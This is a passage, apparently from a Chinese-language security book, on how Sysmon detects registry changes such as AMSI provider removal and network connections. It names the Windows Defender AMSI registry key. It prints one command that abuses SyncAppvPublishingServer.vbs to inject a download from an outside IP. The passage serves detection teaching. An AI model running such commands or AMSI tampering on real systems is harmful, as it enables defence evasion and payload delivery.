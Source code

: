 ![图 2.14 – Sysmon 检测到注册表更改](img/B18964_02_14.jpg)

图 2.14 – Sysmon 检测到注册表更改

另一个 Sysmon 检测的好例子是通过注册表删除 AMSI 提供程序，这将在日志中创建事件 ID 13。所有提供程序都有其独特的键。例如，Windows Defender 有**HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}**。如果您检查已发布的配置文件，Sysmon 可以从检测的角度提供更多信息。

另一个 Sysmon 的好例子是网络连接检测。让我们尝试运行类似以下命令的内容：

```
SyncAppvPublishingServer.vbs "br; iwr http://192.168.13.152:443/a"
```

Sysmon 会检测活动，但不会阻止连接：
